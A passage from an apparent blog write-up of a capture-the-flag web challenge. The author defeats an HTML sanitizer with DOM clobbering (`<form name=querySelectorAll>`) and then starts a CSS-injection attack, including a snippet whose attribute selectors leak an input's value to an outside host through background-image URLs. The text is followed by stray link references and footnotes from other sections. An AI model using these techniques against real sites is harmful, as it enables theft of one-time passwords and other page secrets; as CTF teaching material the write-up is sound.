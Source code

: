 The content security policy (CSP) of the website is `font-src 'none'; object-src 'none'; base-uri 'none'; form-action 'none'; script-src 'self'; style-src 'unsafe-inline'`. This prevents us from trying to communicate with anything outside the website in many ways:

- I can't load custom fonts, so the font technique for CSS injection won't work here.
- I can't load plugins with `<object>` and `<embed>`.
- I can't use `<base>`, which changes the base URL that all relative paths on the page and relative to.
- I can't submit forms.
- I can't use `onerror` attributes and other event handlers to run JavaScript; XSS is infeasible.
- I can't use `<link>` tags to load external CSS to get around the removal of `<style>` tags.

Curiously (with help from ChatGPT to brainstorm what the CSP doesn't over), I still can load images and `<iframe>`s. However, my external `<iframe>`s can't really communicate with or access anything on the web page with the OTP, so I didn't know how to use them.

I could also use inline `style` attributes, but there's no way to use CSS selectors inside them. While you can now [nest CSS rules][nesting], this doesn't seem to have been added to inline CSS.

[nesting]: https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_nesting

So I got stuck and took a break.

While researching ways to get `<iframe>`s to work or add selectors to `style` attributes, I found a post[^12] that had something like this:

[^12]: I tried looking through my browsing history, but there's no evidence of me ever learning about this from anything online. Based on my browsing history, it just looks like I was trying things like `<span id="document">` then suddenly had a stroke of genius and tried doing `<form name=querySelectorAll>`. Then, I got confused where I got this idea from and tried to look up "form name getelementbyid injection" to find the original post.

```html
<form name="getElementById" ...>
  <!-- ... -->
</form>
```

I was trying to get rid of `document.querySelectorAll` using just HTML so it couldn't remove my `<style>` elements. I knew that IDs create global variables that reference the element (for example, `<span id="hey">` creates a global variable `hey`). However, it seems the built-in `document` object has priority over `<span id="document">`.

It seems, based on this post, that using a `name` attribute similarly creates a new entry under `document`. For example, `<form name="hey">` creates a new entry `document.hey`, and apparently `<form name="getElementById">` had more priority than the built-in `document.getElementById` method.

So just by adding some HTML, I could replace `document.querySelectorAll` with a form of the same name. This breaks the code because `document.querySelectorAll` as a form isn't a function anymore, so calling it throws a TypeError, and `<style>` elements are no longer removed. 🙌

Now, I could finally focus on CSS injection.

### Exfiltrating the OTP with CSS

However, there was another problem. Most CSS injection examples you find online will check one character at a time. You can only use CSS attribute selectors to check if a string starts with something, but not if a string exists in some specific point in the string.

For example, it's easy enough to have CSS that looks something like


```html
<style>
input[value^="a"] { background-image: url('https://example.com/a') }
input[value^="b"] { background-image: url('https://example.com/b') }
/* ... */
</style>
```


[acmucsd]: https://acmucsd.com/communities#Cyber
[acmucla]: https://www.acmcyber.com/
[lactf]: https://lac.tf/
[jsfuck]: https://jsfuck.com/
[strings]: https://en.wikipedia.org/wiki/Strings_(Unix)
[ghidra]: https://ghidra-sre.org/
[dogbolt-aplet321]: https://dogbolt.org/?id=4c61df44-da40-4158-80b4-f4155fbf227e
[strstr]: https://cplusplus.com/reference/cstring/strstr/
[bendera]: https://en.wiktionary.org/wiki/bendera#Indonesian
[wiki]: https://id.wikipedia.org/wiki/Bendera_Indonesia
[dcode]: https://www.dcode.fr/monoalphabetic-substitution
[indofreq]: https://www.sttmedia.com/characterfrequency-indonesian
[^1]: Something I never got to use at UCSD because UCSD didn't have a two-year housing guarantee.
[^2]: The deepest darkest secret doesn't work because the server just sets it to `todo` for all non-Samy users.
[fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[italics]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics
[^10]: You might be wondering how JSFuck can create a function in the first place. You can get `a` from `false` and `t` from `true`, and arrays have a method named `at`, which you can access with `[]['a' + 't']`. It's also possible to get the other letters in `constructor`, so you can use `[]['at']['constructor']` to get a reference to the `Function` constructor, which you can use to convert strings to functions. For example, `Function('return 3')` creates a function that returns 3.
[prior]: http://127.0.0.1:4000/longer-tweets/ctf/#ctf-node-calculator-escape-vm-codegeneration-false
[vuln]: https://security.snyk.io/vuln/SNYK-JS-SAFEEVAL-3373064
[gen]: ../files/lactf/lactf-jsfudge.js
[gener]: ../files/lactf/jsfudge-codegen.js
[e]: https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem#L10
[polyglot]: https://en.wikipedia.org/wiki/Polyglot_(computing)
[^11]: This was originally a Node-specific feature that has recently been [standardized into JavaScript][shebang], adding a fourth comment syntax to JavaScript's existing family of `//`, `/* */`, and `<!-- -->`.
[shebang]: https://github.com/tc39/proposal-hashbang
[server]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/server.js
[note]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/note.js
[^13]: Again, as noted at the beginning of the article, everyone at UCSD is part of our team. I don't think this counts as cheating. At worst it's just some OSINT.
[paradox]: https://www.dcode.fr/birthday-problem
[^14]: It's possible for a trigraph to be missing a pair, like having `abc` but not `ab`, due to CSS variable collisions.
[worker]: https://workers.cloudflare.com/
[tunnel]: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/
[workers]: https://blog-cloudflare-com.webpkgcache.com/doc/-/s/blog.cloudflare.com/announcing-workers-dev/
[^15]: Like our dining halls' mobile ordering app.